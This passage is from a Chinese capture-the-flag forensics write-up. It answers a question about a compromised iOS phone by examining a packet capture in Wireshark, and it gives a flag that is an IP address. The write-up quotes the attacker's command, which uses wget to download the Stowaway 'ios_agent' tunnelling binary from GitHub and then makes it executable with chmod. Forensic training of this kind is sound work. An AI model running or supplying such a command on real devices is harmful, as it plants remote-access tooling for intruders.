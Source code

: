 <img src="/img/article/longjiancup/37.png"/>

flag: 3.128.156.159

**10.2黑客利用的Github开源项目的名字是__。（如有字母请全部使用小写）**

用wireshark打开流量包，因为是ios手机联网被黑，搜索GitHub，发现wget` https://github.com/ph4ntonn/Stowaway/releases/download/1.6.2/ios_agent && chmod 755 ios_agent`

<img src="/img/article/longjiancup/36.png"/>
